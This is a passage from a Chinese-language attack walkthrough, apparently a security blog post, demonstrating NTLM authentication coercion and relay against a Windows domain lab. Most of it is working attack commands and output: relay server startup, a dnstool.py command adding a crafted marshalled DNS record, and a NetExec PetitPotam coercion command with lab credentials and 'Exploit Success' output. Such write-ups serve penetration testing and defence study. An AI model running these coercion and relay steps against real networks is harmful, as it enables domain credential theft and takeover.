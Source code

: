```
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled


[*] Servers started, waiting for connections
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje0k75GEQgOJZFvVQJGft5iaBmtX2Oh3RGq1icCHziaxPfxoJzqEM5TZ6Qg/640?wx_fmt=png&from=appmsg "")  
  
  
**3. 注册 DNS 记录**  
  
我们精心构造一个特殊的 DNS 条目，欺骗 Windows 系统使其认为正在与自身通信：  

```
python3 dnstool.py -u 'shield.local\scarter' -p 'Passw0rd' \
  dc4.shield.local -a add \
  -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' \
  -d '192.168.115.178' -dns-ip 192.168.115.180
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje3yYq52bOuEH9AtLGkYxGyq5ggDWxBMnROLAiblnicDgwqrxKWlypkk0A/640?wx_fmt=png&from=appmsg "")  
  
> 同一个局域网（广播可达）也可以直接使用 
```
pretender
```

  
 进行伪造  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeAW6GrdO69awKHKgG5ujcolfqo3z3CCATHg76jb8egNpAAERKgdmtBA/640?wx_fmt=png&from=appmsg "")  
  
**4. 使用 NetExec 或 PetitPotam 强制工作站认证**  
  
我们现在使用 
```
NetExec 或 PetitPotam
```

  
 工具，利用我们伪造的 DNS 名称，强制目标主机发起出站 NTLM 认证：  

```
┌──(root㉿rbtsecurity)-[~]
└─# nxc smb 192.168.115.185 -u scarter -p Passw0rd -M coerce_plus -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA


SMB         192.168.115.185 445    WKSTN-3          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WKSTN-3) (domain:shield.local) (signing:False) (SMBv1:False)
SMB         192.168.115.185 445    WKSTN-3          [+] shield.local\scarter:Passw0rd
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PetitPotam
COERCE_PLUS 192.168.115.185 445    WKSTN-3          Exploit Success, lsarpc\EfsRpcAddUsersToFile
```
